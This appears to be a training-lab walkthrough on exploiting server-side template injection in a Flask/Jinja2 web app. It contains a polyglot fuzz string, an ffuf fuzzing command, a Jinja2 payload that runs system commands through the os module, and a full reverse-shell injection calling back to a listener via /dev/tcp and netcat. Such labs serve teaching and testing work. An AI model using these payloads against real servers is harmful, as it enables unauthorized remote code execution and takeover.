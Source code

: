 ﻿# SSTI Audition Lab

## Welcome!

In this lab, we will look at Server-side Template Injection, a web vulnerability common among many web frameworks that use templates. Please feel free to step outside of the instructions and play around with the injection and the various features you can abuse with it.

Template engines are designed to help frameworks generate web pages by combining fixed templates with input data. Server-side template injection occurs when a template renders in a web application without filtering, allowing us, the attacker, to execute arbitrary code on the server. In this lab, we will look at the Jinja2 framework in Python and how to abuse SSTI to gain a reverse shell against the web server.

## Discovery

![img8.PNG](img8.PNG)

Heading to Tech Guru's website, we can find a field requesting our name for personalized insights. Because this field is a prime candidate for server-side template injection, let's go ahead and try to fuzz for it. The most straightforward approach would be using a polyglot to see how the application interacts with our request.

```python
${{<%[%'"}}%\
```

![img.png](img.png)

Polyglots are great because they test all characters that could make an application vulnerable. What we are looking for here is to trigger an unexpected error or behavior.

After clicking "Get Insights," we will execute the polyglot and receive a flask error. Excellent! Now we know precisely what template the application is using.

![img1.png](img1.png)

In this case, we now know that the application we are interacting with is written in Python. We also understand that its template is Jinja2, as annotated by the `jinja2.exceptions.TemplateSyntaxError`.

In other applications outside this lab, if the above did not result in an error or some other indicator that the application behaved unexpectedly. We may use the `ffuf` tool to fuzz instead. After we have opened burp suite (You may type burp suite in the console), we may run the following:

```bash
#The wget command is just to grab the fuzzing file we will be using, it contains code for all templates.
wget https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Server%20Side%20Template%20Injection/Intruder/ssti.fuzz
ffuf -u www.victim-website.com/ -x FUZZ -w ssti.fuzz -replay-proxy http://127.0.0.1:8080/
```

You may manually analyze the responses to see what returns "49" (As indicated by 7*7) or the id of the user.

2 great resources for figuring out which template injection it is are the following:

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

Since we do not need to use ffuf as we already know the template. We can look into specifics on how the Jinja2 template works.
## Understanding the Jinja2 Template
https://jinja.palletsprojects.com/en/3.1.x/

"Jinja is a fast, expressive, extensible templating engine. Special placeholders in the template allow writing code similar to Python syntax. Then the template is passed data to render the final document."

Jinja2 is typically used in the django and flask frameworks. 

If the app blindly takes user input and renders it in the application, it may be vulnerable to arbitrary code injection. Let's take a look at what this looks like in Python.

```python
greeting = render_template_string(f"Hello, {name}!")
```

The `render_template_string` function renders the template {name} without filtering. Because of this, we can make the application evaluate any code we provide.

## Discovery of Python Methods with SSTI (Flask / Jinja2)

Some template frameworks allow you to execute arbitrary code freely; Jinja2, however, does not. We must first figure out what methods we can access.

Firstly, we will attempt to access a simple built-in method such as `upper()`

`{{"test".upper()}}`

![img2.PNG](img2.png)

We can see that "test" is in all-caps. Knowing that we can now access built-in methods, we can leverage this to execute any code from any module that is built into python.

The `os` module in python allows python to interface with the operating system. This is a prime target for us as it will enable us to execute code directly on the target host.

There are several ways to access a built-in method; however, we will use something simple and obtain remote code execution that way. You will always want to start simple and ensure you can get a working proof of concept exploit before expanding on it into something more complicated like a reverse shell. For now, we will obtain the user's id the flask application is running as.

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

![img3.png](img3.png)

Great! As you can see, we can successfully execute Linux commands. Now let's get a reverse shell!

We will configure our command first to copy over into our SSTI Injection.

```bash
/bin/bash -c "/bin/bash -i >& /dev/tcp/x.x.x.x/4444 0>&1"
```

You will want to change the IP address `x.x.x.x`. You may get your IP address by typing `ip addr`.

After you have configured your SSTI Injection, we will want to create the full PoC (Proof of Concept) in a note to copy and paste.

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.1.112/4444 0>&1"').read() }}```
```

Now that we have built our payload, we may start a listener on our attack machine.

```bash
nc -nvlp 4444
```

![img6.png](img6.png)

After you execute the payload on the website, you should obtain a shell from the web server.

![img5.png](img5.png)

![img7.png](img7.png)

Excellent, we now have a reverse shell on the web server!